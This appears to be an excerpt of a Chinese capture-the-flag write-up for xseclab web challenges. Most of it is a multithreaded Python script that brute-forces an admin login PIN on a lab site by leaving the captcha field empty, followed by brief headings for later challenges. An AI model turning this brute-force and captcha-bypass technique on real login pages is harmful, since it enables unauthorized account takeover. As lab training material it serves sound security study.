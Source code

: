 ```bash
import requests, re
import threading

url = 'http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/index.php'
login = 'http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/login.php'
s = requests.session()
c = s.get(url).content.decode('utf-8')
print(c)

lock = threading.Lock()

curTask = 1000
maxTask = 10000
flag = False
right = ''
header = {'Referer': 'http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/index.php',
          'Connection': 'keep-alive',
          'Upgrade-Insecure-Requests': '1'}


def thread():
    global lock
    global curTask
    global maxTask
    global flag
    global right
    global header
    while not flag:  # 当flag为假也就是正确密码还没出来时，不断取任务来完成
        lock.acquire()  # 取任务  #这个过程不能被打断
        myTask = curTask
        curTask = curTask + 1
        lock.release()
        if myTask >= maxTask:  # 所有任务已经完成就退出
            break

        data = {'username': 'admin', 'pwd': str(myTask), 'vcode': '', 'submit': 'submit'}
        c1 = s.post(login, data=data, headers=header).content.decode('utf-8')
        print(str(myTask) + ':' + c1)

        if 'error' not in c1:
            right = str(myTask) + ', ' + c1
            flag = True  # 当密码正确时，flag为真
# 多线程执行
threadNum = 50
threadlist = []
for i in range(threadNum):
    threadlist.append(threading.Thread(target=thread))
for i in threadlist:
    i.start()
for i in threadlist:
    i.join()
# 最终输出正确结果
print('pwd is ' + right)
```
## 逗比的验证码第三期（SESSION）
解法同上面
## 微笑一下就能过关了
查看源代码可得
```bash
<?php  
    header("Content-type: text/html; charset=utf-8");
```